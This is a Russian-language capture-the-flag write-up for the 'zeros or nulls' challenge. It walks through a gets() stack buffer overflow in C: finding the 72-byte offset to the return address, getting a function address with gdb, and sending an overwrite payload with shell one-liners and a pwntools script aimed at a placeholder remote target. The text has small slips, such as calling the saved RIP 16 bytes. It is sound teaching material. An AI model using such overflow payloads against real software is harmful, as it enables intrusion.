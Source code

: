 # zeros or nulls writeup

Нам дан код на C, использующий небезопасную функцию [gets()](https://www.c-cpp.ru/content/gets) и самописная функция dont_call_me(), которая выводит переменную окружения. 

Внимательно просмотрев код, можно заметить, что функция dont_call_me() не вызывается в нашем main, там вообще ничего не вызывается.

### Что же делать? 
Обратить внимание, что буфер заполняется через gets(). Нужно понять, как ее проэксплуатировать (подсказка: размер введенной строки пользователя может быть БОЛЬШЕ, чем размер нашего буфера).

Теперь узнаем адрес нашего [rip регистра](https://linux-doc.ru/programming/assembler/architecture/rip.php), чтобы понять, как это сделать, будем использовать скомпилированный файл zeros_or_nulls и python. Суть в том, чтобы получить [SEGFAULT](https://ru.wikipedia.org/wiki/%D0%9E%D1%88%D0%B8%D0%B1%D0%BA%D0%B0_%D1%81%D0%B5%D0%B3%D0%BC%D0%B5%D0%BD%D1%82%D0%B0%D1%86%D0%B8%D0%B8), благодаря этому узнаем смещение до нашего rip регистра.

Делается это с помощью команды `python -c "print 'A'* OFFSET" | ./zeros_or_nulls`, изначально примем `OFFSET=64`, потому что буфер именно такого размера, и будем увеличивать его на 4 до тех пор, пока не получим нужную ошибку. Произойдет это при 72 сдвиге, значит следующие 16 байтов - rip. Их нужно изменить, но на какое значение? 

Настало время [gdb](https://ru.wikipedia.org/wiki/GNU_Debugger). С его помощью легко можно узнать адрес функции flag(), запускаем `gdb -q ./zeros_or_nulls` и прописываем `disas dont_call_me` - в первой строке получаем то, что искали `0x0000000000400607`.

### Вызовем функцию! 
Это можно сделать двумя способами:

1. bash: `python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]" | ./zeros_or_nulls`
2. gdb: ```r -A < <(python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]")```

Второй способ позволяет передать в gdb null-bytes (\x00), в отличие от способа передачи $(), который их игнорирует.

Функция отработала, отлично, теперь переходим к боевому стенду! Для удобства работы напишем python скрипт.

```python
from pwn import *

conn = remote('TARGET_IP', TARGET_PORT)

OFFSET = 72
payload = OFFSET * 'A' + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1] 
conn.sendline(payload)
print(conn.recv())
```

 Отправляем нашу полезную нагрузку и получаем флаг: **kxctf{u_@r3_str0ng_0n3_but_th4ts_n0t_4ll_tg_OxSBI}**
